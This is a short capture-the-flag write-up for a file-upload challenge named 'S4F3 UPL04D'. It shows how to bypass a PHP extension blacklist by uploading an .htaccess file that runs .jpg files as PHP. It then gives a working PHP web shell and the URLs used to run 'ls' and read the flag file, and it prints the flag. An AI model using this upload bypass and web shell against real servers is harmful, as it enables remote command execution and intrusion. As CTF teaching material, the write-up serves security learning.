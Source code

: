 ## Challenge Name : S4F3 UPL04D
## Author :[L0xm1](https://twitter.com/L0xm1_07)
## Challenge Description
Uploading files is safe ..right??


## Writeup 
This is a basic file upload challenge where you can upload images of **.jpg** extension .

If you look into the source code we can see that **.php** file extensions are blacklisted.

We can upload a **.htaccess** file with the following line **AddType application/x-httpd-php .jpg** which executes all **.jpg** files as php files.

After successfully uploading the .htaccess file we can upload a .jpg file containing a php shell for eg: ```<?php
$cmd=$_GET["cmd"];
$q=shell_exec($cmd);
echo $q;
?>```

Now when we visit **/uploads/{you file name}.jpg?cmd=ls /** ,we can see that flag is in */flag*.

We can get the flag using **/uploads/{you file name}.jpg?cmd=cat /flag**

## Flag
**shaktictf{f1l3_upl0ad_iz_s4f3_ryt??}**
